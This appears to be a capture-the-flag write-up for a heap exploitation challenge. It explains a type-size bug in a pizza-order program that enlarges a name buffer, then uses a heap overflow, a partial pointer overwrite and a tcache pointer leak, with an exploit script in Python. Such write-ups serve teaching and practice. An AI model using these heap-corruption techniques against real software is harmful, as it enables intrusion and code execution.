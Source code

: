 The problem is on this line:
```c
read_num(&order->pizza_type);
```
The `pizza_type` field is a `uint8_t`, but it treats it as an `unsigned short`, which would overlap with the `name_size` field.
If you set the type to 0xFF00 for example, you will see that the type will be 0, and the lower byte of `name_size` will have become 0xFF.

# The attack
The idea is to place an order with a small name, and then use the bug to make its `name_size` bigger, which lets us overflow when we modify the order.

What can we do with this overflow? Let's look at what's on the heap if we have 2 placed orders (assuming no free'd stuff hanging around):
```
+------------+
| 1st struct |
+------------+
|  1st name  |  <-- overflow from here downwards
+------------+
|  1st desc  |
+------------+
| 2nd struct |
+------------+
|  2nd name  |
+------------+
|  2nd desc  |
+------------+
```

If we fake the 1st order's `name_size`, we'll be able to overwrite the 2nd order's struct, its sizes and its pointers. We have no leak and the binary is PIE, so we can't set `name` to any address, but if we could move it so that it points to another chunk, and then free that chunk, we could leak the heap by reading there because we'd be reading some bin's forward pointer.

We can do a partial overwrite, specifically, our name is read with `fgets`, which puts a null-terminator at the end of the string, so we can read up until before the name and turn its LSB into 0.
If we do that, and if we choose the right sizes for the name of the 1st order (we want a 0x30 chunk, so at least 32), then the 2nd order's name will point at the start of the 1st order's description.

Now if we free the 1st order, its chunks will be placed in the tcache, and the start of every chunk will contain tcache forward pointers, and we can now read one of these by reading the 2nd order's name, so we've leaked the heap! :D

(Note for all these snippets: `mk_order()` is a function that returns the byte representation of an order, possibly a partial representation depending on how many parameters it's passed)
```python
io = conn()

# make a 1st order to overflow from
order(io, 0, 32, b'A', 5, b'B', 0xff00)

# make a 2nd order to overflow into
order(io, 1, 5, b'A', 5, b'B', 0)

# overflow into the 2nd order and put fgets' null terminator onto its name ptr's LSB
# also make its name size very big
payload =\
	b'A'*40 +\
	p64(0x21) + b'A'*24 +\
	p64(0x31) + mk_order(0, 0, False, 0, 0xffff) + b'A'*5
modify(io, 0, payload, b'B')

# now free the 1st order, and since the 2nd order's name now points to the 1st description, if you read it you'll see a tcache fd
```